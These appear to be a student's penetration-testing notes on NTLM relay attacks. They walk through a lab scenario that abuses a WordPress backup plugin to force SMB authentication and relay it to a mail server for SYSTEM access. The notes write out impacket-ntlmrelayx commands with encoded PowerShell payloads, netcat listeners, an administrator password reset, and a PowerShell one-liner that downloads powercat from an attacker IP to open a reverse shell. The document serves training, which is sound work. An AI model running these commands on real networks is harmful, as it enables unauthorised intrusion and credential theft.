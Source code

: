 - [[Responder]]
- [[Impacket]]
- [[SMB]]
### Relaying Net-NTLMv2
- - If not a local Admin user, UAC must be disabled

- impacket-ntlmrelayx
	- impacket library
	- sets up an SMB server and relays the authentification part
	- Example:
		- impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG5...."
			- --no-http-server = disable HTTP server since we're relaying SMB connection
			- -t = target
			- -c = command to execute
			- -enc = base64 encoded
			- [-i] = [interactive mode]
		- nc -lvnp 8080
			- catch reverse shell on SYS2
		- nc 192.168.50.211 5555
			- connect to bind shell on SYS1
		- dir \\192.168.119.2\test
			- create SMB connection to Kali machine
		- powershell reverse shell one liner
			- powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.145.245:8000/powercat.ps1');
powercat -c 192.168.45.245 -p 4444 -e powershell"

- or 
	- -c "net user Administrator Password123#"
- Scenario:

- In the previous section, we retrieved the plaintext password for _daniela_ and gained access to the WordPress dashboard on INTERNALSRV1. Let's review some of the settings and plugins.

Start:

- We'll begin with the configured users:
- Figure 20 shows _daniela_ is the only user. Next, let's check _Settings > General_.
- The _WordPress Address (URL)_ and _Site Address (URL)_ are DNS names as we assumed. All other settings in _Settings_ are mostly default values. Let's review the installed plugins next.
- Let's click on _Manage_, which brings us to the plugin configuration page. Clicking through the menus and settings, we discover the _Backup directory_ path.
    - Figure 23 shows that we can enter a path in this field, which will be used for storing the backup. We may abuse this functionality to force an authentication of the underlying system.
- Let's pause here for a moment and plan our next steps. At the moment, there are two promising attack vectors.
    1. The first is to upload a malicious WordPress plugin to INTERNALSRV1. By preparing and uploading a web shell or reverse shell, we may be able to obtain code execution on the underlying system.
    2. For the second attack vector, we have to review the BloodHound results again and make some assumptions. As we have discovered, the local _Administrator_ account has an active session on INTERNALSRV1. Based on this session, we can make the assumption that this user account is used to run the WordPress instance.
        - Furthermore, it's not uncommon that the local Administrator accounts across computers in a domain are set up with the same password. Let's assume this is true for the target environment.
        - We also learned that the domain administrator beccy has an active session on MAILSRV1 and therefore, the credentials of the user may be cached on the system.
        - Due to SMB signing being disabled on MAILSRV1 and INTERNALSRV1, a relay attack is possible if we can force an authentication.
        - Finally, we identified the Backup directory path field in the WordPress _Backup Migration_ plugin containing the path for the backup destination. This may allow us to force such an authentication request.

Plan:

- Based on all of this information, let's define a plan for the second attack vector. First, we'll attempt to force an authentication request by abusing the _Backup directory path_ of the Backup Migration WordPress plugin on INTERNALSRV1. By setting the destination path to our Kali machine, we can use **impacket-ntlmrelayx** to relay the incoming connection to MAILSRV1. If our assumptions are correct, the authentication request is made in the context of the local _Administrator_ account on INTERNALSRV1, which has the same password as the local _Administrator_ account on MAILSRV1.
- If this attack is successful, we'll obtain privileged code execution on MAILSRV1, which we can then leverage to extract the NTLM hash for beccy and therefore, meet one of the primary goals of the penetration test.

Start:

- Let's set up **impacket-ntlmrelayx** before we modify the _Backup directory path_ in the WordPress plugin. We'll use **--no-http-server** and **-smb2support** to disable the HTTP server and enable SMB2 support. We'll specify the external address for MAILSRV1, 192.168.50.242, as target for the relay attack. By entering the external address, we don't have to proxy our relay attack via Proxychains. Finally, we'll base64-encode a _PowerShell reverse shell oneliner_ that will connect back to our Kali machine on port 9999 and provide it as a command to **-c**.
    - `sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."`
- Set up a Netcat listener on port 9999 for the incoming reverse shell.
    - `nc -lvnp 9999`
- Now with everything set up, we can modify the Backup directory path.
    - Let's set the path to the _URI reference_ **//192.168.119.5/test** in which the IP is the address of our Kali machine and **test** is a nonexistent path.
- Success:
    - Listing 73 confirms the assumptions we made earlier. First, INTERNALSRV1/ADMINISTRATOR was used to perform the authentication. Second, by successfully authenticating to MAILSRV1, we confirmed that both machines use the same password for the local Administrator account.
    - The output also states that the relayed command on MAILSRV1 got executed. Let's check our Netcat listener for an incoming reverse shell.
        - `whoami;hostname`
- We successfully obtained code execution as NT AUTHORITY\SYSTEM by authenticating as a local Administrator on MAILSRV1 by relaying an authentication attempt from the WordPress plugin on INTERNALSRV1.